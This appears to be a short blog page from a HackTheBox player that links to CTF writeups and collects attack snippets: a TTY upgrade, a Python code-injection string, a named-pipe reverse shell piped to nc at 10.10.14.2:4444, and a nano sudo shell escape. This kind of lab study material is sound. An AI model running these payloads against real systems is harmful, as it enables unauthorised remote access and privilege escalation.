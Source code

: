 ```yaml
---
title: "Highlights"
date: 2020-01-03T20:06:24-05:00
draft: false
---
```


# Writeups
[Postman](post/htb/postman)
[Craft](post/htb/craft)
[Sneaky - Coming Soon](post/htb/sneaky)
[Traverxec - Coming Soon](post/htb/traverxec)

```python
python -c 'import pty; pty.spawn("/bin/bash")'
```

```python
__import__("os"); os.system("pwd")
```

**python code injection w/import and backpiping**

```bash
__import__("os").system("mknod /tmp/backpipe2 p && /bin/sh 0</tmp/backpipe2 | nc 10.10.14.2 4444 1>/tmp/backpipe2")
```

![test image](/img/craft/developer.png)

# Nano Escape

Opening nano as sudo we can then perform:
```bash
^R^X
Reset; sh 1>&0 2>&0
```
Where ^R^X is ctrl+R and ctrl+X.
